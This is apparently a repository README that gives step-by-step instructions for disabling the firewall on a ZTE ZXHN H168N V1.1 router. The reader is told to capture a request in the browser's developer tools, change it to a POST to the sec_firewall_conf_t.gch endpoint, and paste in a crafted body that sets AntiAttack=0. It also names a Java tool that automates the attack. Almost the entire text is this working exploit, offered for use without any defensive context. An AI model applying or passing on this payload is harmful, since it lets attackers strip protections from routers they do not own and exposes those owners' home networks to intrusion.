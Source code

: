 1. Go to firefox

2. Open `Inspect Element` on a tab

3. On this tab, go to the `http://[IP]/sec_firewall_conf_t.gch`

4. Capture the `GET` request from `Network` Tab in `Inspect Element`

5. Search for `Edit and resend` button and click on it

6. Change `GET` to `POST`

7. Go to request body and paste this `Level=1&AntiAttack=0&IF_ACTION=apply&IF_ERRORSTR=SUCC&IF_ERRORPARAM=SUCC&IF_ERRORTYPE=-1`

8. Send it !

   OR you can run `ZTE_Firewall_Disable.java` and Enter the IP

This Vulnerability Applies only to ZTE ZXHN H168N V1.1

Tested on: ZXHN H168N V1.1.00_ALT1 "Software Version"